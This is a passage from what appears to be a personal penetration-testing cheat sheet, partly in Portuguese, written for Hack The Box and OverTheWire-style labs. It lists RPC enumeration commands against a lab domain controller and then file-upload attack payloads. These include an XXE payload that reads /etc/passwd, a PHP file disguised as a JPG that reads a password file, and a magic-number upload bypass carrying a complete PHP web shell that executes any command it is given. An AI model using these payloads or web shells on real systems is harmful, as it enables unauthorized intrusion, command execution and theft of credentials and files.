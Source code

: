         - rpcdump
            
            ```markdown
            sudo rpcdump.py -h
            sudo rpcdump.py windcorp.htb/administrator@10.10.11.102 -debug
            ```
            
        - rpcclient
            
            ```markdown
            
            sudo rpcclient -h
            sudo rpcclient --user='' --no-pass 10.10.11.102
            help
            srvinfo
            netshareenumall
            enumdomusers
            enumdomgroups
            getdcname windcorp
            ```
            
    - Upload?
        - XXE.xml
            - Generic Payload
                
                ```bash
                <?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "/etc/passwd">]><config><location>&xxe;</location></config>
                ```
                
        - Fake jpg (Crie um arquivo php com o nome fake.jpg)
            
            ```bash
            <?php echo system("cat /etc/natas_webpass/natas13"); ?>"
            ```
            
        - Tampering Magic Numbers
            - Se a aplicação faz validação se o arquivo é uma imagem, tente bypassar colocando magic numbers no começo do arquivo:
                - png
                    
                    ```bash
                    printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > imagem_with_magic_number_png.php
                    ```
                    
                    ```php
                    �PNG
                    �
                    <html>
                    <body>
                    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
                    <input type="TEXT" name="cmd" id="cmd" size="80">
                    <input type="SUBMIT" value="Execute">
                    </form>
                    <pre>
                    <?php
                        if(isset($_GET['cmd']))
                        {
                            system($_GET['cmd']);
                        }
                    ?>
                    </pre>
                    </body>
                    <script>document.getElementById("cmd").focus();</script>
                    </html>
                    ```
                    